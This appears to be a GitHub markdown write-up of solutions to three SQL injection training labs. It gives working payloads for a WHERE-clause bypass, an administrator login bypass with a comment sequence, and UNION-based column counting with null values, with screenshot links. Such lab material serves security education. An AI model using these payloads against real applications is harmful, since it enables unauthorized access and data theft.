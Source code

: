 # SQL Injection

## Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Sol:
`+OR+1=1`

![image](https://user-images.githubusercontent.com/33444140/234489856-c3dd5689-888c-4571-b135-030024b0af06.png)

## Lab 2: SQL injection vulnerability allowing login bypass

### Sol:

`administrator'--`

![image](https://user-images.githubusercontent.com/33444140/234491811-0cffcfb0-ba68-4bfa-8d8a-14bc8ab32d66.png)

![image](https://user-images.githubusercontent.com/33444140/234492060-e5cd29d0-f65c-4d79-b894-efa1394cda95.png)

## Lab 3: SQL injection UNION attack, determining the number of columns returned by the query

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

### Sol :

`category='Pets'+union+select+null,null,.....<No of null occurences> --`

### Using one and two null values will gives us Internal Server Error due to non-matching of null values with no of cols

    category=Pets+union+select+null--
    
![image](https://user-images.githubusercontent.com/33444140/235349085-16ab2024-dbfa-4a0d-bf25-6767545b482a.png)

### Using third null will match the no of cols

    category=Pets+union+select+null,null,null--
    
![image](https://user-images.githubusercontent.com/33444140/235349154-0bcd2a7f-9f72-467f-be22-baae68c20f85.png)
